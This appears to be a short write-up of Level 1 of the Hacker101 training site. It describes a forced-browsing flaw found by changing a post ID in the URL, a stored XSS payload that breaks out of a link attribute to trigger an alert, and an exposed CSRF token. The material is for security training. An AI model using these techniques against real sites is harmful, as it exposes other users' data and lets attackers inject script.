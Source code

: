 # Level 1: Breakbook


```
		In this level, there are 4 vulnerabilities, falling into the following classes:
		CSRF
		Stored XSS
		Forced Browsing

		Have fun!
```
    

## Forced Browsing:      
`https://levels-a.hacker101.com/levels/1/post?id=88`      
Change post ID to view anyone's post & their gmail IDs      
![Forced Browsing](https://github.com/Isopach/Hacker101/blob/master/img/level1_forced_browsing.png)

---- 

## Stored XSS:        
Post a HTTP link with a delimiter like `"` or `* `     
`http://test.com/"onload="alert('hakd')`        
![Stored XSS](https://github.com/Isopach/Hacker101/blob/master/img/level1_stored_xss.png)
----
  
## CSRF:    
Token is exposed in source. Not sure what can I do with it unless I manage to obtain someone else's token
